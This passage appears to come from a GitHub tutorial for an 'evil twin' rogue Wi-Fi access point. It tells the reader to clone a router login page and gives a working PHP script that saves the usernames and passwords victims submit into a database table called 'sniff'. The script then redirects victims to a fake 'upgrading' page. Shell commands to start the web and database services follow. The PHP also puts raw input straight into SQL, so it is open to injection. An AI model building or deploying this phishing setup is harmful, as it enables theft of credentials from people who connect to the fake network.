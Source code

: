 ### Configuring the web page (LOGIN ROUTER WIFI)

Search and copy the html of a login webpage with the following action form:

```
<tr><td><form action="dbconnect.php" method="post">
```

And the appropriate `dbconnect.php`

```
<?php
session_start();
ob_start();
$host="localhost";
$username="fakeap";
$pass="fakeap";
$dbname="evilTwin";
$tbl_name="sniff";

// Create connection
$conn = mysqli_connect($host, $username, $pass, $dbname);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}


$username=$_POST['username'];
$password=$_POST['password'];

$sql = "INSERT INTO sniff (username, password) VALUES ('$username', '$password')";
if (mysqli_query($conn, $sql)) {
    echo "New record created successfully";
} else {
    echo "Error: " . $sql . "<br>" . mysqli_error($conn);
}

mysqli_close($conn);

sleep(2);
header("location:upgrading.html");
ob_end_flush();
?>
```

### Initializazing services

We need to start apache2 and mysql

```
service apache2 start && service mysql start
```
